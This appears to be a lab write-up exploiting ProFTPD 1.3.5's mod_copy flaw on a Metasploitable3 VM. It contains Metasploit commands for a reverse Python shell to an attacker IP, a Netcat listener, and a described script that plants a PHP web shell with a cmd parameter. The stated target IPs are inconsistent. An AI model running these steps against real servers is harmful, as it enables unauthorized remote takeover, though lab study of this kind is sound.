








## Step 1: Identifying Metasploitable3's IP Address

To get started, we needed the IP address of the Metasploitable3 machine. We ran the `ifconfig` command directly inside the VM and picked up the address assigned by the NAT network.

- **IP Found:** `192.168.8.160`



---

### Step 2: Checking Network Connectivity

Before trying anything fancy, we made sure the attacker (Kali Linux) could talk to the victim (Metasploitable3). A simple `ping` to the target IP confirmed everything was good — no packet loss.

- **Target IP:** `10.0.2.7`



---

### Step 3: Port and Service Scanning

Next up, we needed to figure out what was open and running. We went with a full version scan using `nmap` to get a complete picture of the services available for exploitation.



---

## Step 4: Exploiting ProFTPD 1.3.5 via `proftpd_modcopy_exec`

Turns out, **ProFTPD 1.3.5** was running — a known vulnerable version. Using Metasploit, we loaded up the `unix/ftp/proftpd_modcopy_exec` module and prepped it for a reverse shell back to Kali.



### Attack Summary

- **Victim IP:** `10.0.2.7`
- **Attacker IP:** `10.0.2.5`
- **Vulnerable Service:** ProFTPD 1.3.5
- **Module Used:** `exploit/unix/ftp/proftpd_modcopy_exec`
- **Payload:** `cmd/unix/reverse_python`
- **Target Directory:** `/var/www/html`

### Commands Overview

```bash
msfconsole
search proftpd 1.3.5
use exploit/unix/ftp/proftpd_modcopy_exec
set RHOST 10.0.2.7
set LHOST 10.0.2.5
show payloads
set payload cmd/unix/reverse_python
set SITEPATH /var/www/html
set AllowNoCleanup true
set DisablePayloadHandler true
exploit
```

---

## Step 5: Reverse Shell Success!

After launching the attack, we triggered the payload by visiting the uploaded file on the victim’s web server. Success! The shell came back, giving us control.



### Setting Up the Listener

On Kali, we had a Netcat listener ready and waiting on port 4444:

```bash
nc -lvnp 4444
```

---

## Task 1.2: Automating the Exploit with a Custom Script

Instead of manually exploiting ProFTPD, we used a Python script to automate the whole thing.

### Running the Script

From the `/Downloads` folder, we ran:

```bash
python3 Script.py
```



### What the Script Does

- Creates a PHP reverse shell (`exploit.php`)
- Uploads it to `/var/www/html/` using ProFTPD’s mod_copy commands
- Provides the URL to trigger the payload manually

### Proof of File Upload

After using the script, we confirmed the file was uploaded by listing the web server directory:

```bash
set CMD ls -l /var/www/html
run
```



---

### Final Confirmation

- Reverse shell connection: Confirmed.
- Script functionality: Verified.
- Payload visibility: `/var/www/html/`
- Task 1.2: Completed.



---

## How the Script Works (Step-by-Step)

### 1. Payload Generation
- Generates `exploit.php`, capable of either reverse shells or executing commands via:

```
http://<victim-ip>/exploit.php?cmd=<command>
```

### 2. Exploiting FTP mod_copy
- Uses the `SITE CPFR` and `SITE CPTO` FTP commands to move the payload into the web root.

### 3. Attacker Instructions
- The script tells you where your payload lives and how to trigger it.

---

## Why ProFTPD mod_copy?

- **CVE-2015-3306** makes it a juicy target.
- Anonymous access? No credentials needed.
- Works flawlessly against Metasploitable3.
